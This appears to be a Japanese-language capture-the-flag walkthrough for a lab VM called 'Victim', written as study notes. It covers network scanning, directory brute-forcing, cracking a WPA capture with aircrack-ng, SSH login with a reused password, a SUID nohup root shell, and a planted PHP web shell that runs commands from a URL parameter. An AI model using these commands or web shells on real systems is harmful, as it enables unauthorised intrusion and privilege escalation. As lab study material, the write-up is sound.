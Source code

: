 ## Victim
### 事前準備
  - rockyou.txt.gzファイルを解凍する
  - gunzip /usr/share/wordlists/rockyou.txt.gz 
### ポートスキャンまでは同じ
- `fping`を受け付けないこともあるので、`arp-scan`を使う
  - fpingはicmpプロトコルを飛ばしている
  - arp-scanはarpプロトコルを飛ばしている
  - `sudo arp-scan --localnet`
- ポート22, 80, 8080, 8999, 9000が開いている。各々ポートのサービスが何で動いている

### ブラウザで80,8080,8999の各サイトを見てみる
- html,robots.txt

### gobusterで80, 8080を見る   
- `gobuster dir -u 192.168.56.106 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 50`
  - `-x`のオプションがあると拡張子を指定できる。ただし時間がかかる。表示のProgress(当てはめた数字 / (辞書の数*拡張子の種類数))になるのをチェックする
  - `-u` オプションは、リンクの次から順に検索していく
  - `-t`はスレッドの数を指定できる。デフォルトは10で、50だと３割くらい早くなる
- 8080ポートでもやってみる、この場合はhttp://$IP:8080。するとpasswordsテキストがある。中身を見てみると、、

### pcapファイルを取得
  - pcapファイルを取得する方法は２つある
  1. 8999ポートのブラウザにアクセスする、こういう表示をディレクトリリスティングと呼ぶ。本来はディレクトリなんだが、見やすいようにブラウザが見やすいようにしている
  2. WPA-01.capファイルをダウンロードする。
  3. `wget http://192.168.56.106:8999/WPA-01.cap`

### (補足)wiresharkの設定
- 見やすいようにする
- `view` -> `PacketBytes`のチェックリストを外す 
### wiresharkを起動して中身をチェックする
- `wireshark  WPA-01.cap`とターミナルで入力
- 全体を見るために、Statics -> Protocol Hierarchyを見る、wireless LANとあることからwifiのパケットであることがわかる
- SSIDは無線LANの識別IDで要はユーザ名のことで、ここではdlinkというユーザがいることがわかる
- 暗号化がwpa1で弱いことがわかる

### wiresharkを起動して中身をチェックしてユーザ名を見つける
- 虫メガネアイコンをクリックするとバーが下に出てくる
- Case sensitiveのとこにリストがあるのでDisplay fileterをStringにする
- 右側のとこにSSIDと入力する。SSIDはユーザ名のこと
- ユーザ名のところが青くなる。ユーザ名はdlink

### 暗号解読
- 次の2つは辞書が異なるだけで、どちらでもできる
- 本に書いてるの
  - `aircrack-ng WPA-01.cap -w /usr/share/wordlists/rockyou.txt`
  - パスワードがわかる
- ParrotOSにはwifi専用のパスワード辞書があるので、それでやってみる
  - `aircrack-ng WPA-01.cap -w /usr/share/wordlists/wifite.txt` 
### sshで接続する
- ユーザとwifiのパスワードをsshでも使い回していると仮定してssh接続をする
- `ssh dlink@$IP`

### 侵入
- OSを特定する
- 個人で使える管理者権限を調べる
- ここから攻略1,2がある

### (攻略1)SUIDファイルを特定する
- `find / -perm -4000 -ls 2> /dev/null`
  - `-ls`はロングフォーマットで表示する
- どっちでもいい
- `find / -perm -u=s -type f 2> /dev/null` 

### nohupコマンドでルートシェルを奪う
- `nohup /bin/sh -p -c "sh -p < $(tty) > $(tty) 2> $(tty)"`
  - GTFOBinsのSUIDのところにも書いてある
  - nohupコマンドはターミナルを閉じてもコマンドは継続して実行したいときに使うコマンド
  - -pは実ユーザ(ターミナルを起動したユーザ)と実行ユーザ(コマンドを打ったユーザ)が異なる時につけるオプション。本来は同じになるはずだが、SUIDはルート権限でするので実行ユーザが異なる。`-p`がないと、ルートにはなれない
  - $(tty)はドルパーレンと呼ぶ、単に先にコマンドを実行しているだけ
  - `< $(tty)`標準入力
  - `> $(tty)`標準出力
  - `2> $(tty)`エラー出力
### rootを取得
  - `cd /root`
  - `ls`
  - `cat flag.txt`

## (攻略2)Webシェルでルートフラグを取得
- 書き込み可能なディレクトリを検索する
  - `find / -type d -writable 2> /dev/null`
- フルパーミッションのディレクトリを探す
  - `find / -perm -0777 -type d -ls 2> /dev/null
  - `/var/www/bolt/public/files` このパスに注目する。しかも所有者がrootであることから、rootで実行できる
- ブラウザでチェックする `192.168.56.106:9000` 何が表示される?
- `cd /var/www/bolt/public/files`　に移動する      
- shell.phpファイルを作る `vim shell.php`
```php
<?php
    system($_GET['cmd']);
?>
```
- ブラウザのパスでコマンドを入力することができる
  - 次のコマンドは`cat /root/flag.txt`をすることができる 
  - `view-source:http://192.168.56.106:9000/files/shell.php?cmd=cat /root/flag.txt`

